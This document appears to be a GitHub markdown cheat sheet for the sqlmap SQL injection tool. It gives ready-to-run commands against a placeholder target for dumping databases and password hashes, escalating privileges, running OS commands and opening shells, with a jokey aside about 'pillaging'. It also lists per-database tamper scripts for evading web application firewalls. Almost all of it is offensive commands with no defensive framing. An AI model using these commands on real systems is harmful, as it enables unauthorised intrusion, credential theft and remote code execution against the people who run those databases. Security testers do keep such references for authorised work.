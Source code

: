 # SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
```sqlmap -u 'http://target.server.com'```

- Specify POST requests by specifying the “–data” flag:
```sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
```sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
```sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
```sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3```
- Specify which POST or GET parameter to target using the “-p” flag:
```sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1```
- Choose a random User-Agent request header using the “–random-agent” flag:
```sqlmap -u 'http://target.server.com' -r req.txt --random-agent```
- Target a certain database service using the “–dbms” flag:
```sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
```sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords```
- Attempt privilege escalation on the target database
```sqlmap -r ./req.txt --level=1 --risk=3 --privesc```
- Run the “whoami” command on the target server.
```sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami```
- Dump everything in the database, but wait one second in-between requests.
```sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1```
- Here are some useful options for your pillaging pleasure:
```-r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
–force-ssl Force SQLmap to use SSL or TLS for its requests.
–level=1 only test against the specified parameter, ignore all others.
–risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
–delay Set a delay in-between requests, great for throttled connections.
–proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
–privesc Attempt to elevate the privileges of the database service account.
–all Enumerate everything inside the target database.
–hostname Print the target database’s hostname.
–passwords Find and exfiltrate all users and their password hashes or digests.
–dbs Enumerate all databases accessible via the target webserver.
–comments Enumerate all found comments inside the database.
–sql-shell Return a SQL prompt for interaction.
–os-cmd Attempt to execute a system command.
–os-shell Attempt to return a command prompt or terminal for interaction.
–reg-read Read the specified Windows registry key value.
–file-write Specify a local file to be written to the target server.
–file-dest Specify the remote destination to write a file to.
–technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries
```


## Tamper
  - **All scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

  - **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

  - **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
